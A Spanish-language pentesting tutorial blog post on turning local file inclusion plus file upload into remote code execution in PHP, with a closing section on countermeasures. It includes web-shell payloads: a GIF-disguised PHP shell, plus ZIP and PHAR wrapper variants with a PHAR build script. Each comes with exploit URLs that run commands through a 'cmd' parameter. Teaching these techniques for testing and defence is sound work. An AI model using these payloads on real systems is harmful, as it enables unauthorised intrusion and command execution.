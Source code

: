 ```yaml
---
title: LFI y Subida de Archivos
date: 2025-06-08 11:00:00 +0000
categories: [Web Security, Pentesting]
tags: [LFI, file-upload, php, web-shells, penetration-testing]
image: 
    path: /assets/img/posts/lfi-file-upload/lfi-banner.png 
    alt:  cabecera
description: >
  Explotando Vulnerabilidades de Inclusión Local
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


La **inclusión local de archivos (LFI)** combinada con funcionalidades de subida de archivos representa una de las técnicas más efectivas para lograr **ejecución remota de código (RCE)** en aplicaciones web. En este post exploraremos diferentes métodos para explotar estas vulnerabilidades.

---

## Introducción a LFI y Subida de Archivos

Las funcionalidades de subida de archivos son omnipresentes en las aplicaciones web modernas, ya que los usuarios normalmente necesitan configurar sus perfiles y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor back-end puede extender la explotación de muchas vulnerabilidades, como las vulnerabilidades de inclusión de archivos.

---

### Funciones Vulnerables por Lenguaje

Para que este ataque funcione, la función vulnerable debe tener capacidades de **ejecución de código**. Las siguientes funciones permiten ejecutar código con inclusión de archivos:

| Lenguaje | Función | Leer Contenido | Ejecutar | URL Remota |
|----------|---------|----------------|----------|------------|
| **PHP** | `include()/include_once()` | ✅ | ✅ | ✅ |
| **PHP** | `require()/require_once()` | ✅ | ✅ | ❌ |
| **NodeJS** | `res.render()` | ✅ | ✅ | ❌ |
| **Java** | `import` | ✅ | ✅ | ✅ |
| **.NET** | `include` | ✅ | ✅ | ✅ |

---

## Método 1: Subida de Imagen Maliciosa

### Creando la Imagen Maliciosa

El primer paso es crear una imagen maliciosa que contenga código PHP web shell pero que aún parezca y funcione como una imagen normal.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Nota:** Utilizamos una imagen GIF porque sus magic bytes son fácilmente tipeables (caracteres ASCII), mientras que otras extensiones tienen magic bytes en binario que necesitarían ser URL encoded.

### Subiendo el Archivo

Una vez creado nuestro archivo malicioso, necesitamos subirlo a la aplicación web. Típicamente esto se hace a través de formularios de perfil o configuración.

### Obteniendo la Ruta del Archivo

Después de subir nuestro archivo, necesitamos conocer la ruta donde se almacenó. En la mayoría de casos, especialmente con imágenes, podemos obtener acceso a nuestro archivo y conseguir su ruta desde su URL.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

### Explotación

Con la ruta del archivo en mano, solo necesitamos incluir el archivo subido en la función vulnerable LFI:

```
http://target.com/vulnerable.php?file=./profile_images/shell.gif&cmd=id
```

---

## Método 2: Wrapper ZIP

### Creando el Archivo ZIP

Esta técnica utiliza los wrappers de PHP para ejecutar código PHP. Aunque este wrapper no está habilitado por defecto, puede funcionar en ciertos casos específicos.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Explotación con Wrapper ZIP

Una vez subido el archivo shell.jpg, podemos incluirlo usando el wrapper `zip://` y referenciar archivos dentro de él con `#`:

```
http://target.com/vulnerable.php?file=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

---

## Método 3: Wrapper PHAR

### Creando el Archivo PHAR

El wrapper `phar://` ofrece otra alternativa para lograr ejecución de código. Primero creamos un script PHP:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilación y Preparación

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```


### Explotación con PHAR

```
http://target.com/vulnerable.php?file=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---

## Contramedidas y Prevención

### Validación Estricta
- Validar tanto la extensión como el contenido del archivo
- Implementar lista blanca de tipos MIME permitidos
- Verificar magic bytes de archivos

### Aislamiento de Archivos
- Almacenar archivos subidos fuera del directorio web
- Usar directorios con permisos restrictivos
- Implementar naming schemes aleatorios

### Sanitización de Entradas
- Validar y sanitizar todas las entradas del usuario
- Usar rutas absolutas en lugar de relativas
- Implementar controles de acceso adecuados

---

## Conclusiones

La combinación de vulnerabilidades LFI con funcionalidades de subida de archivos puede resultar en **ejecución remota de código**, incluso cuando la funcionalidad de subida no es vulnerable por sí misma. El **primer método** (imagen maliciosa) es el más confiable y debería funcionar en la mayoría de casos con la mayoría de frameworks web.

Los métodos de **ZIP** y **PHAR** deben considerarse como alternativas cuando el primer método no funciona, ya que requieren configuraciones específicas de PHP.

> **Importante:** Existe otro ataque LFI/uploads obsoleto que puede ocurrir si la subida de archivos está habilitada en las configuraciones de PHP y la página phpinfo() está expuesta. Sin embargo, este ataque no es muy común ya que tiene requisitos muy específicos (LFI + uploads habilitados + PHP antiguo + phpinfo() expuesto).

---

### Referencias

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP Wrappers Documentation](https://www.php.net/manual/en/wrappers.php)
- [Local File Inclusion Techniques](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
